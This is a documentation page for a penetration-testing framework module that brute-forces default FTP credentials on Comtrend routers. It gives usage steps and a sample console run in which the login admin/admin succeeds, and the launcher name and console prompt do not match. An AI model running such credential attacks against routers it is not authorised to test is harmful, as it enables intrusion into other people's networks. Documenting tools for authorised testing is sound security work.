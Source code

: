 ## Description

Module performs dictionary attack with default credentials against Comtrend Router FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use creds/routers/comtrend/ftp_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/comtrend/ftp_default_creds
rsf (Comtrend Router Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Comtrend Router Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
